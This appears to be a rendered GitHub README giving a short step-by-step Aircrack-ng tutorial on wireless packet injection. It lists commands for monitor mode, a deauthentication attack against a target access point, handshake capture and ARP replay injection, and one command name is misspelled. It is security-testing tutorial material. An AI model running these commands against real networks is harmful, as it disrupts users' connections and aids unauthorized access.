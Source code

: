 # Packet Injection

### Packet injection is a technique used in wireless security testing to inject specially crafted packets into a wireless network to perform various attacks or tests. Below are step-by-step commands to perform packet injection using the Aircrack-ng suite, a commonly used tool for wireless penetration testing:

#### 1) sudo airmon-ng start wlan0 (Put your wireless interface into monitor mode to capture wireless packets)

#### 2) sudo airdump-ng wlan0mon (Identify target network)

#### 3) Note down the BSSID of the target and the channel it's operating on

#### 4) sudo aireplay-ng --deauth 10 AA:BB:CC:DD:EE:FF wlan0mon (Deauthentication attack)

#### 5) If you are targeting a WPA/WPA2 secured network, capture the authentication handshake by monitoring the target network until a client authenticates or re-authenticates.

#### 6) sudo aireplay-ng --arpreplay -b MAC_ADDRESS wlan0mon (Inject packets into target network. You can perform attacks like: ARP request replay, fragment, caffe-latte, etc)

#### 7) Monitor the effects of packet injection in the airodump-ng window.
